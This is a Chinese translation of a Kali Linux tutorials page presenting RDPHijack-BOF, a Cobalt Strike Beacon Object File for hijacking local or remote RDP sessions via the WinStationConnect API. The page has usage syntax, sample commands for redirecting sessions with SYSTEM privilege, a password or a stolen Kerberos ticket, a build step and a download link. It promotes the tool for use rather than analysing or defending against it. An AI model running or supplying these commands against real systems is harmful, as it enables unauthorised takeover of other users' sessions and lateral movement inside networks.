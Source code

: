 # RDPHijack-BOF:执行本地/远程 RDP 会话劫持

> 原文：<https://kalilinuxtutorials.com/rdphijack-bof/>

[![](img/0cb29237e2e3acd91040fb36f17dece0.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhiu0tVdpXIYhVYH5-H08bVlrT4nb_Cqr-nCFVGc-sLHrnTeKmYGAqmz7FSs9GWwyKM0fU1WI7jeoAIAf8U43pfxAuu6aXaU_N0d4NrTj5wYNf5LGDusgMm3g09A-Ud7VMqvoNoDJ6_9NMzwl5OfBcJ7iqfrUlkwpLOUUyqVSV0rEtIKIbcExx1b0xw/s728/BOF.png)

使用 WinStationConnect API 执行本地/远程 RDP 会话劫持的 Cobalt Strike Beacon 对象文件(BOF)。使用会话所有者的有效访问令牌/ kerberos 票证(例如黄金票证)，您将能够远程劫持会话，而不会在目标服务器上丢弃任何信标/工具。

要本地/远程枚举会话，您可以使用 [Quser-BOF](https://github.com/netero1010/Quser-BOF) 。

## 截图

![](img/0cb29237e2e3acd91040fb36f17dece0.png)

## 使用

```
Usage: bof-rdphijack [your console session id] [target session id to hijack] [password|server] [argument]

Command         Description
--------        -----------
password        Specifies the password of the user who owns the session to which you want to connect.
server          Specifies the remote server that you want to perform RDP hijacking.

Sample usage
--------
Redirect session 2 to session 1 (require SYSTEM privilege):
bof-rdphijack 1 2

Redirect session 2 to session 1 with password of the user who owns the session 2 (require high integrity beacon):
bof-rdphijack 1 2 password P@ssw0rd123

Redirect session 2 to session 1 for a remote server (require token/ticket of the user who owns the session 2):
bof-rdphijack 1 2 server SQL01.lab.internal

```

## 编译

`make`

## 参考

tscon.exe

[Click Here To Download](https://github.com/netero1010/RDPHijack-BOF)